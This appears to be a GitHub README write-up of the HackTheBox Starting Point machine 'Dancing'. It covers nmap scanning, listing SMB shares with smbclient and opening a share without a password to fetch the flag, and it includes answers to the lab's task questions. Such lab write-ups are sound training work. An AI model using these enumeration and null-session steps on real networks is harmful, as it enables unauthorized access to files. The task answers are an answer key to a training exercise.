

```
     /\_____/\
    (  ^   ^  )   ██╗  ██╗ █████╗  ██████╗██╗  ██╗████████╗██╗  ██╗███████╗██████╗  ██████╗ ██╗  ██╗
    ( (  ω  ) )   ██║  ██║██╔══██╗██╔════╝██║ ██╔╝╚══██╔══╝██║  ██║██╔════╝██╔══██╗██╔═══██╗╚██╗██╔╝
     \ ~~~~~ /    ███████║███████║██║     █████╔╝    ██║   ███████║█████╗  ██████╔╝██║   ██║ ╚███╔╝
      )     (     ██╔══██║██╔══██║██║     ██╔═██╗    ██║   ██╔══██║██╔══╝  ██╔══██╗██║   ██║ ██╔██╗
     (  ~~~  )    ██║  ██║██║  ██║╚██████╗██║  ██╗   ██║   ██║  ██║███████╗██████╔╝╚██████╔╝██╔╝ ██╗
      `~~~~~´     ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝   ╚═╝   ╚═╝  ╚═╝╚══════╝╚═════╝  ╚═════╝ ╚═╝  ╚═╝
```
```
╔══════════════════════════════════════════════════════════════════════════╗
║                                                                        ║
║   ██████╗  █████╗ ███╗   ██╗ ██████╗██╗███╗   ██╗ ██████╗             ║
║   ██╔══██╗██╔══██╗████╗  ██║██╔════╝██║████╗  ██║██╔════╝             ║
║   ██║  ██║███████║██╔██╗ ██║██║     ██║██╔██╗ ██║██║  ███╗            ║
║   ██║  ██║██╔══██║██║╚██╗██║██║     ██║██║╚██╗██║██║   ██║            ║
║   ██████╔╝██║  ██║██║ ╚████║╚██████╗██║██║ ╚████║╚██████╔╝            ║
║   ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═══╝ ╚═════╝╚═╝╚═╝  ╚═══╝ ╚═════╝          ║
║                                                                        ║
║              [ HackTheBox — Starting Point ]                           ║
║                                                                        ║
╚══════════════════════════════════════════════════════════════════════════╝
```
---
## 💃 Machine Info
```
┌──────────────────────────────────────────────────┐
│  Name       : Dancing                            │
│  OS         : Windows                            │
│  Difficulty : Very Easy                          │
│  Rating     : ⭐ 4.7/5 (801)                    │
│  XP Reward  : 150 XP                             │
│  Theme      : SMB / Enumeration                  │
│  Player #   : 405894                             │
└──────────────────────────────────────────────────┘
```
---
## 🎯 Objective
> Exploiter un service **SMB** mal configuré avec un partage accessible **sans mot de passe** pour récupérer le flag.
---
## 📝 Tasks & Answers
```
┌────┬────────────────────────────────────────────────────────────────────────────────┬─────────────────────────┐
│ #  │ Question                                                                       │ Answer                  │
├────┼────────────────────────────────────────────────────────────────────────────────┼─────────────────────────┤
│ 01 │ What does the 3-letter acronym SMB stand for?                                  │ Server Message Block    │
│ 02 │ What port does SMB use to operate at?                                          │ 445                     │
│ 03 │ What is the service name for port 445 that came up in our Nmap scan?           │ microsoft-ds            │
│ 04 │ What switch can we use with smbclient to list available shares?                │ -L                      │
│ 05 │ How many shares are there on Dancing?                                          │ 4                       │
│ 06 │ Name of the share we can access with a blank password?                         │ WorkShares              │
│ 07 │ Command within the SMB shell to download files?                                │ get                     │
└────┴────────────────────────────────────────────────────────────────────────────────┴─────────────────────────┘
```
---
## 🔍 Walkthrough
### Step 1 — Ping the Target
```bash
ping <TARGET_IP>
```
> Test de connectivité ICMP pour vérifier que la machine cible est accessible.
📸 **Screenshot :**

---
### Step 2 — Nmap Scan (Version & Service Detection)
```bash
nmap -sV <TARGET_IP>
```
> Scan des services pour identifier **SMB** sur le port **445** avec le service **microsoft-ds**.
📸 **Screenshot :**

---
### Step 3 — SMB Enumeration with smbclient
```bash
smbclient -L <TARGET_IP>
```
> Lister les partages SMB disponibles. On découvre **4 partages** :
> - `ADMIN$`
> - `C$`
> - `IPC$`
> - `WorkShares` ← accessible sans mot de passe ✅
📸 **Screenshot :**

---
### Step 4 — Access WorkShares & Get the Flag 🚩
```bash
smbclient \\\\<TARGET_IP>\\WorkShares
```
```
Password: (vide — appuyer sur Entrée)
```
> Connexion réussie au partage **WorkShares** sans authentification.
```bash
smb: \> ls
smb: \> cd James.P
smb: \James.P\> get flag.txt
smb: \> quit
```
```bash
cat flag.txt
```
> Téléchargement et lecture du flag.
📸 **Screenshot :**

---
## 🏁 Result
```
╔═══════════════════════════════════════════╗
║                                           ║
║   🚩  ROOT FLAG OWNED  🚩                ║
║                                           ║
║   Congratulations H4concef!               ║
║   You are player #405894                  ║
║   to have solved Dancing.                 ║
║                                           ║
╚═══════════════════════════════════════════╝
```
---
## 📚 Concepts Learned
```
┌─────────────────────────┬──────────────────────────────────────────────────────┐
│ Concept                 │ Description                                          │
├─────────────────────────┼──────────────────────────────────────────────────────┤
│ SMB                     │ Server Message Block — port 445, file sharing        │
│ microsoft-ds            │ Service name for SMB on port 445                     │
│ smbclient               │ Linux CLI tool to interact with SMB shares           │
│ Null Session            │ Accessing SMB shares with blank password             │
│ Nmap                    │ Network scanner for port & service enumeration       │
└─────────────────────────┴──────────────────────────────────────────────────────┘
```
---
## 🛠️ Tools Used
```
• nmap       — Port & service scanner
• smbclient  — SMB command-line client
• ping       — ICMP connectivity test
```
---
## 📂 Repository Structure
```
DANCING/
├── README.md
└── IMG/
    ├── ping scan.png
    ├── version SMB.png
    ├── smbclient.png
    └── Enum & flag.png
```
---
## 👤 Author
```
   ╔═══════════════════════════════╗
   ║  H4concef — Player #405894   ║
   ║  HackTheBox Starting Point   ║
   ╚═══════════════════════════════╝
```
> *Writeup réalisé dans le cadre du parcours Starting Point de HackTheBox.*
